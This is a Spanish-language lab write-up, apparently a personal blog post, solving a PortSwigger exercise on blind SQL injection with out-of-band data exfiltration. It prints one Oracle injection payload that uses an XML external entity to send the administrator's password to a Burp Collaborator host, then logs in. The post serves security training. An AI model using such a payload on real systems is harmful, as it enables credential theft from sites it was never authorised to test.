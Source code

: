 ```yaml
---
title: "16 Blind SQL injection with out of band data exfiltration"
collection: publications
category: portswigger
permalink: /publications/SQLi/16_Blind SQL injection with out of band data exfiltration
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, explotamos la vulnerabilidad de inyección SQL fuera de banda para obtener la contraseña del administrador.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with out of band data exfiltration'
---
```


![logo]({{site.url}}/images/SQLi/sqli-16/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-16/descripcion.png)

## Objetivo del laboratorio

* Explotar una vulnerabilidad SQLi para obtener el password del usuario administrator.
* Login como usuario administrador

# Cheat Sheet

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![Cheet]({{site.url}}/images/SQLi/sqli-16/cheet.png)

# Servidor

Obtenemos un servidor desde la pestaña `Collaborator`

`nc33sjxg8k7bhtlz9h7khabde4kv8nwc.oastify.com`

Usamos los payloads que nos proporciona la hoja de trucos de Burp y le colocamos el servidor que nos proporciono.

```sql
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.nc33sjxg8k7bhtlz9h7khabde4kv8nwc.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```

![payload]({{site.url}}/images/SQLi/sqli-16/payload.png)

Abrimos el colaborator y vemos la contraseña del usuario `administrator`

![resultado]({{site.url}}/images/SQLi/sqli-16/resultado.png)

## Login

![login]({{site.url}}/images/SQLi/sqli-16/login.png)

## Resuelto

![resuelto]({{site.url}}/images/SQLi/sqli-16/aprobado.png)